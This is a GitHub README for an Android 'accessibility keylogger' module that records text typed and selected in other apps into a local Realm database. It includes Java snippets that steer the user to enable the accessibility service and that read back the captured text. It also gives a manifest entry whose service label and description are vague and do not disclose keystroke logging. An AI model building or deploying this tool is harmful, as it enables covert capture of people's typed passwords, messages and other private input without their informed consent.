 # Android-Accessibility-Keylogger
Android module which tracks text view changes using an accessibility service and saves the updates into a Realm database.

## Information

Open accessibility activity (in order to prompt user to enable the service)
```java
startActivity(new Intent(Settings.ACTION_ACCESSIBILITY_SETTINGS));
```

Process the result(s) (using Realm)
```java
// Accessibility
RealmResults<TypeViewTextChangedEventObject> typeViewTextChangedEventObjectRealmResults = null;

if (realm != null && !realm.isClosed()) {
    typeViewTextChangedEventObjectRealmResults = realm.where(TypeViewTextChangedEventObject.class).findAll();

    if (typeViewTextChangedEventObjectRealmResults.size() > 0) {
        // TODO: Process object
    }
}

// ----

RealmResults<TypeViewTextSelectionChangedEventObject> typeViewTextSelectionChangedEventObjectRealmResults = null;

if (realm != null && !realm.isClosed()) {
    typeViewTextSelectionChangedEventObjectRealmResults = realm.where(TypeViewTextSelectionChangedEventObject.class).findAll();

    if (typeViewTextSelectionChangedEventObjectRealmResults.size() > 0) {
        // TODO: Process object
    }
}
// - Accessibility
```

## Manifest requirement(s)
<?xml version="1.0" encoding="utf-8"?>
<manifest xmlns:android="http://schemas.android.com/apk/res/android">

    <service android:name=".module.accessibility.service.AccessibilityService"
        android:label="@string/service"
        android:description="@string/additional_service"
        android:permission="android.permission.BIND_ACCESSIBILITY_SERVICE">
        <intent-filter>
            <action android:name="android.accessibilityservice.AccessibilityService" />
        </intent-filter>
    </service>
</manifest>

## License
This project is released under the The GNU General Public License v3.0. See "LICENSE" file for further information.
